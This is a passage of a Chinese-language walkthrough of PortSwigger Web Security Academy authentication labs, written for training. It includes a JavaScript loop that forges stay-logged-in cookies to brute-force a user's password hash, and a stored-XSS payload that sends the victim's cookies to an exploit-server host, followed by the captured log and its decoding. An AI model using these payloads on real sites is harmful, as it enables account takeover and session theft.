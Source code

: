 由於這個 stay-logged-in cookie 不是 HTTP-Only，所以我們可以透過瀏覽器的 JS 來修改

```js
function myAccount(pass) {
  document.cookie = `stay-logged-in=${btoa(`carlos:${pass}`)}`;
  return fetch(
    `https://0ae9005104abe88e801e3f6300f50090.web-security-academy.net/my-account?id=carlos`,
  );
}

async function main() {
  for (const pass of hashedPasswords) {
    await myAccount(pass);
  }
}
```

## Lab: Offline password cracking

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/other-mechanisms#keeping-users-logged-in       |
| Lab       | https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking |

留言功能有 XSS，可以竊取受害者的 cookie，嘗試留言

```html
<script>
  fetch(
    `https://exploit-0add00e9044ebd4f8145d3550182001f.exploit-server.net/exploit?cookie=${encodeURIComponent(document.cookie)}`,
  );
</script>
```

之後在 exploit-server 查看到

```
/exploit?cookie=secret%3D1REpZLmoJqZHg7MI35KYdxNTUijeqvfv%3B%20stay-logged-in%3DY2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

url decode 之後

```js
decodeURIComponent(
  `secret%3D1REpZLmoJqZHg7MI35KYdxNTUijeqvfv%3B%20stay-logged-in%3DY2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`,
);
// secret=1REpZLmoJqZHg7MI35KYdxNTUijeqvfv; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

base64 decode 之後
